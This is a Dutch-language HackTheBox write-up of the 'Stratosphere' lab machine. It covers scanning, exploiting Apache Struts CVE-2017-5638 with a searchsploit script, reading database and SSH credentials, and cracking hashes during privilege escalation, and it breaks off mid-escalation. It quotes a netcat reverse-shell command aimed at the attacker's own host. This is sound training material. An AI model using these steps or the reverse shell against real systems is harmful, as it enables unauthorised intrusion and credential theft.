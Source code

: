 # Stratosphere

## Low privilege

Eerst begin ik met een Nmap scan:

``` nmap -sV -p- -T5 -oN 10.10.10.64.nmap```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/1.PNG" />

<ul>
	<li>sV: Probeer versie namen te vinden</li>
	<li>-p-: Scan alle TCP poorten </li>
	<li>-T5: Scan snel en aggresief</li>
	<li>-oN: Save output als Nmap formaat </li>
</ul>


Er is een webserver dus draai ik meteen een dirbsearch scan:

```python3 dirsearch.py -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 25 ```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/2.PNG" />
Argumenten spreken voor zich neem ik aan.

Wanneer ik naar /Monitoring navigeer word ik omgeleid naar http://10.10.10.64/Monitoring/example/Welcome.action. Ik wist niet precies wat er bij .action bestanden hoorden dus had ik dat opgezocht op Google.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/3.PNG" />

Ik lees Struts, dus weet ik genoeg.

```searchsploit -x linux/webapps/41570.py ```

Dit is een Python script dat CVE-2017-5638 probeert te exploiteren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/4.PNG" />

Hoppa, remote code execution! Het is nu de bedoeling dat ik een shell krijg, en dat is niet zo moeilijk. In plaats van ```echo "Gio" ``` als commando te gebruiken gebruik ik een commando waarmee ik dus een shell kan krijgen. De commando die ik meestal gebruik is: ```nc -e /bin/sh [Mijn tunnel ip] 1234 ```. Maar dit werkt niet, sterker nog geen één reverse shell commando werkt, dit kom waarschijnlijk omdat de script niet kan blijven hangen maar een error gooit. 

Ongeveer 2 uur later is mijn irritatie grens bereikt en probeer ik te kijken of er misschien andere interesante dingen zijn. Het eerste wat ik dan doe is kijken of de webserver database credentials lekt en met deze proberen in te loggen. Ik zie (via het Python script) dat er een ``db_connect`` bestaat, en deze bevatten de database credentials :).

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/5.PNG" />

Oké vet, maar ik heb geen shell dus is het niet echt mogelijk om een interactieve MySQL shell te krijgen. Na een tijdje door de man pagina van MySQL te hebben gebladerd kwam ik iets heel interesant tegen:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/6.PNG" />

Hierdoor is het mogelijk om statements uit te voeren zonder een interactieve shell te hebben. Dus, ik weet de credentials van de database en ik heb een manier gevonden om statements uit te voeren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/7.PNG" />

Dit ziet er héél lekker uit. Hier zie ik een gebruiker genaamd Richard en zijn wachtwoord. Dit zijn vast ook zijn SSH credentials.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/8.PNG" />

Boom, ez lyfe.

## Privilege escalation

Het eerste dat ik doe als ik user ben op een machine is kijken of die user bestanden mag openen als root, dit doe ik doormiddel van de commando `` sudo -l ``

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/9.PNG" />

Het ziet er naar uit dat ik `` /home/richard/test.py `` mag uitvoeren als root. eens kijken wat dat script precies doet:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/10.PNG" />

Oké, het verwacht dat je een aantal hashes cracked en vervolgens wordt /root/succes.py aangeroepen. Dit is allemaal wel leuk en aardig met aangezien er geen sticky bit op test.py zit is het vrij nutteloos om het te gaan proberen. Maar dit is Hackthebox dus deed ik het alsnog. In het script staat precies welke algoritme bij welke hash hoort. ```John``` is een tool die dit voor mij kan oplossen.

Eerste hash: `` john --format=raw-md5 --wordlist=~/rockyou.txt hash # kaybboo!`` <br>
Tweede hash: `` john --format=raw-sha1 --wordlist=~/rockyou.txt hash # ninjaabisshinobi`` <br>
Derde  hash: `` john --format=raw-md4 --wordlist=~/rockyou.txt hash # legend72`` <br>
Vierde hash: `` john --format=raw-blake2 --wordlist=~/rockyou.txt hash # Fhero6610 `` <br>
